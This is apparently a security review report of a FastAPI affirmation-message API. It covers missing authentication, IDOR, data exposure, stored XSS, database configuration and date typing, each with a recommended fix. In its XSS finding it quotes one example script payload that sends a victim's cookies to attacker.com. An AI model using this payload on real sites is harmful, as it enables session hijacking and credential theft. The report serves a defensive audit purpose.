 # Security Review of Affirmation API

This report details the security vulnerabilities found in the provided Python FastAPI application code. The analysis was conducted from the perspective of a security expert specializing in Python. The findings are listed in descending order of severity.

---

### **Finding 1: Critical: Missing Authentication and Authorization Controls**

**Severity:** Critical

**Description:**
The API has no authentication or authorization mechanisms. Any user on the internet can access all endpoints, including those that create and retrieve data. There is no concept of user identity, sessions, or ownership. This allows any anonymous user to view all data for all users, create new users, and create affirmation messages on behalf of any existing user. This fundamentally breaks the principles of confidentiality and integrity.

For example, an attacker can:
1.  Call `GET /users` to retrieve a list of all user IDs and names.
2.  Choose a target `user_id`, for instance, `123`.
3.  Send a `POST` request to `/messages` with the payload `{"user_id": 123, "message": "Malicious content", "date": "2023-01-01"}` to create a message as if it came from that user.

**Recommendation:**
Implement a robust authentication and authorization framework. For FastAPI applications, OAuth2 with JSON Web Tokens (JWT) is a standard and secure choice.

1.  **Add Authentication:** Create login endpoints (e.g., `/token`) that verify user credentials (like username and password, which need to be added to the `User` model) and issue a short-lived JWT access token upon success.
2.  **Secure Endpoints:** Protect all data-modifying and data-retrieval endpoints. Create a dependency that requires a valid JWT in the `Authorization` header, decodes it, and retrieves the corresponding user from the database. This dependency will provide the "current authenticated user" to the endpoint functions.
3.  **Enforce Authorization:** Modify endpoint logic to operate within the context of the authenticated user. For example, the `create_affirmation` function should not accept a `user_id` from the request body. Instead, it should assign the `id` of the user identified by the JWT token.

---

### **Finding 2: High: Insecure Direct Object Reference (IDOR)**

**Severity:** High

**Description:**
As a direct result of the lack of authorization, the application is vulnerable to IDOR. Endpoints that reference objects by their ID in the path or body (`/users/{user_id}`, `/messages/{affirmation_id}`, and `POST /messages`) allow any user to access or manipulate any object in the system, provided they can guess or enumerate the ID. A user can view another user's profile details or, more critically, create an affirmation message in another user's name by simply supplying that user's ID in the `user_id` field of the request to `POST /messages`.

**Recommendation:**
After implementing authentication as described above, all data access must be scoped to the authenticated user.

1.  **Remove User ID from Body:** Modify the `AffirmationCreate` Pydantic model to remove the `user_id` field. The `create_affirmation` endpoint should derive the `user_id` from the authenticated user provided by the token dependency.
2.  **Implement Ownership Checks:** For endpoints that retrieve a specific object (e.g., `GET /messages/{affirmation_id}`), you must verify that the requested object belongs to the authenticated user. After fetching the affirmation, check if `affirmation.user_id` matches the `current_user.id`. If it does not, return a `404 Not Found` or `403 Forbidden` error.
3.  **Create Scoped Endpoints:** Consider creating routes that implicitly use the current user's context, such as `GET /me/messages` to get the logged-in user's messages, instead of exposing endpoints that can list all messages.

---

### **Finding 3: High: Excessive Information Disclosure**

**Severity:** High

**Description:**
The endpoints `GET /users` and `GET /messages` expose all user records and all affirmation messages, respectively, to any party that queries them. This is a major information leak that violates user privacy. An attacker can easily build a complete profile of all users and their personal affirmations stored in the system.

**Recommendation:**
These global listing endpoints should be removed or heavily restricted.

1.  **Remove Public Endpoints:** For a typical user-facing application, there is no need for an endpoint that lists all users or all messages. These two endpoints should be removed entirely.
2.  **Implement Admin Roles (If Necessary):** If an administrative function to view all data is required, implement a Role-Based Access Control (RBAC) system. Add a role field to the `User` model (e.g., 'user', 'admin'). The authentication dependency should also check the user's role and only allow access to these endpoints for users with the 'admin' role.

---

### **Finding 4: Medium: Potential for Stored Cross-Site Scripting (XSS)**

**Severity:** Medium

**Description:**
The `message` field in the `AffirmationMessage` model is stored directly as a user-provided string without any sanitization. If this message is ever displayed on a web page, the application becomes vulnerable to Stored XSS. An attacker could submit a message containing malicious JavaScript, such as `<script>document.location='http://attacker.com/cookie?c='+document.cookie</script>`. When any user views this affirmation, the script will execute in their browser, potentially leading to session hijacking, credential theft, or browser-based attacks.

**Recommendation:**
Apply the principle of defense-in-depth by addressing this on both the client and server side.

1.  **Client-Side Encoding (Essential):** Any front-end application that consumes this API and renders the `message` content MUST properly HTML-encode the output to prevent the browser from interpreting it as code. This is the most critical defense against XSS.
2.  **Server-Side Sanitization (Recommended):** To add another layer of security, sanitize the input before storing it in the database. Use a library like `bleach` in your `create_affirmation` endpoint to strip out any dangerous HTML tags and attributes, ensuring that only safe content is ever stored.

---

### **Finding 5: Low: Insecure Database Configuration for Production**

**Severity:** Low

**Description:**
The application uses SQLite with the setting `connect_args={"check_same_thread": False}`. This configuration is suitable for development but not for a production environment, as SQLite is not designed to handle the concurrency of a production web server and can lead to performance bottlenecks or data integrity issues. Additionally, the database URL is hardcoded in the source code. For a production database (e.g., PostgreSQL, MySQL), this URL would contain sensitive credentials, and hardcoding them is a severe security risk.

**Recommendation:**
1.  **Use a Production-Ready Database:** For any real-world deployment, migrate to a more robust database system like PostgreSQL or MySQL.
2.  **Externalize Configuration:** Never hardcode configuration, especially secrets. Use environment variables to store the `DATABASE_URL`. FastAPI can integrate with Pydantic's `BaseSettings` to easily load configuration from the environment, separating configuration from code and preventing secrets from being checked into version control.

---

### **Finding 6: Low: Improper Data Type for Date Field**

**Severity:** Low

**Description:**
The `date` field in the `AffirmationMessage` model and Pydantic schemas is defined as a `String`. This allows for inconsistent and invalid data formats to be stored (e.g., "yesterday", "2023/10/27", "27-Oct-2023"). This lack of type enforcement can lead to bugs, data corruption, and makes reliable sorting and querying based on date impossible. While not a direct vulnerability, it weakens the application's data integrity.

**Recommendation:**
Use proper data types for date and time information.

1.  **SQLAlchemy Model:** Change `Column(String, nullable=False)` to `Column(sqlalchemy.Date, nullable=False)` or `Column(sqlalchemy.DateTime, nullable=False)`.
2.  **Pydantic Schema:** Change `date: str` to `date: datetime.date` or `date: datetime.datetime` (after importing `datetime`). Pydantic will automatically validate incoming JSON strings and parse them into proper date/datetime objects, rejecting any invalid formats.